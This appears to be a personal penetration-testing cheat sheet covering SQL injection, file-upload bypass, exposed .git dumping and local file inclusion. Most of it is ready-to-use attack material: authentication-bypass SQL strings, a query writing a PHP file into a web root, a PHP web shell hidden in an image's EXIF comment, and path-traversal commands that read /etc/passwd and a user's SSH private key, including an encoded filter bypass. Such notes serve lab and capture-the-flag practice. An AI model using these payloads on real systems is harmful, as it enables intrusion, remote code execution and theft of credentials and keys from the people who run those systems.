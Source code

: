 # SQLI
- Try admin'# (valid username, see netsparker sqli cheatsheet)
- Try abcd' or 1=1;--
- Use UNION SELECT null,null,.. instead of 1,2,.. to avoid type conversion errors
#### For mssql,
- xp_cmdshell
- Use concat for listing 2 or more column data in one
#### For mysql,
- try a' or 1='1 -- -
- A' union select "" into outfile "C:\xampp\htdocs\run.php" -- -'


# File Upload:
- Change mime type
- Add image headers
- Add payload in exiftool comment and name file as file.php.png
- ExifTool 
    - 1. <?php system($_GET['cmd']); ?> //shell.php 
    - 2. exiftool "-comment<=shell.php" malicious.png 
    - 3. strings malicious.png | grep system

# Git
#### 1. Download .git directory:
```bash
mkdir <DESTINATION_FOLDER>
./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>
```
#### 2. Extract .git content:
```bash
mkdir <EXTRACT_FOLDER>
./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>
```


# LFI & RFI 

### cheat sheet
```bash
../../../../etc/passwd

```
### Example to read SSH key:
- By default, SSH searches for `id_rsa`, `id_ecdsa`, `id_ecdsa_sk`, `id_ed25519`, `id_ed25519_sk`, and `id_dsa`
- Use URL encoding (%2e%2e%2f for ../) to bypass simple filters.
```bash
curl http://target/index.php?page=../../../../home/user/.ssh/id_rsa

#Encoded
http://192.168.10.10/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```
